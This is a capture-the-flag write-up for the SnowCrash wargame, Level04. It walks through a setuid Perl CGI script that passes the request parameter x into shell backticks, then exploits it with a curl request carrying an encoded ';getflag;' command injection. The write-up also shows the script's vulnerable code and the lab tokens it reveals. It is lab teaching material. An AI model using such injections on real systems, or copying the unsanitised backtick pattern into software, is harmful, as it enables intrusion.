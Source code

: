 # SnowCrash

qi0maab88jeaj46qoumi7maus

## Level04

```
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

Once again this file runs with the flag04 permissions

We can open it directly using cat since it's a perl script and not a binary file

```
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Script analysis
This script uses the CGI module to handle web requests
There is also a comment # localhost:4747 likely indicating that this script is intended to run (might already be running) on this address

It's running a subroutine called x

```pl
sub x {
  $y = $_[0]; # store the first argument into y
  print `echo $y 2>&1`; # will run the command : echo $y
}
```

We can exploit this by making $y = "; getflag ;"

in order to run both the echo command and the getflag command

## Exploit

This one is pretty simple since the subroutine 'x' is ran like this:

```
x(param("x"))
```

We just need to set x=";getflag;" when querying localhost:4747 and make to sure to respect URL Encoding by replacing ';' with '%3B' which is it's hex value

```sh
level04@SnowCrash:~$ curl http://localhost:4747?x=%3Bgetflag%3B

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```